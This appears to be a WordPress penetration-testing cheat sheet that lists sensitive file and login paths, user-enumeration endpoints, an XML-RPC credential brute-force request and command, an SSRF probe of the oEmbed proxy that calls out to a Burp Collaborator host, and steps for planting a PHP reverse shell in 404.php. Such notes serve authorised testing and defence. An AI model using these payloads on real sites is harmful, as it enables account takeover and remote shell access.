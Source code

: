

# download
https://wordpress.org/download/

## Vulnerability
https://patchstack.com/database/
https://wpscan.com/wordpress/60/


## hacks
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
- https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/


## Basic Information
/wp-content/uploads/2018/08/a.txt
/wp-content/themes/twentytwelve/404.php
/wp-content/themes/default/404.php

## Main WordPress Files
/index.php
/license.txt
/readme.html
/wp-activate.php
/wp-sitemap.xml
/robots.txt
/sitemap.xml
/feed
/wp-includes/functions.php
/xmlrpc.php

## Login folders (may be renamed to hide it):
/wp-admin/login.php
/wp-admin/wp-login.php
/login.php
/wp-login.php
/wp-login/
/wp-admin/
/wp-admin.php
/login/

## Configuration files
/.htaccess
/wp-config.php              #information required by WordPress to connect to the database.
/_wpeprivate/config.json

## xmlrpc.php
POST /xmlrpc.php --data <methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1


## main directory where plugins and themes are stored.
/wp-content/
/wp-content/uploads/
/wp-includes/
/uploads
/upload

## information required by WordPress to connect to the database.
/wp-config.php

## Users Permissions
- Administrator
- Editor: Publish and manages his and others posts
- Author: Publish and manage his own posts
- Contributor: Write and manage his posts but cannot publish them
- Subscriber: Browser posts and edit their profile

## Get WordPress version
curl https://victim.com/ | grep 'content="WordPress'
<meta name="generator"
CSS link files
JavaScript files

## User enumeration
/?author=XXX
/wp-json/wp/v2/users
/wp-json/oembed/1.0/embed?url=POST-URL
/wp-json/wp/v2/pages
/wp-json/?rest_route=/wp/v2/users

## Credentials Bruteforce
POST /xmlrpc.php
<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>pass</value></param></params></methodCall>

## /wp-json/oembed/1.0/proxy - SSRF
https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net 


## Auto scan
 - [wpscan]
    - scan
    - brut-force
    - php-reverse-shell to 404.php
    - run 404.php on browser ann get shell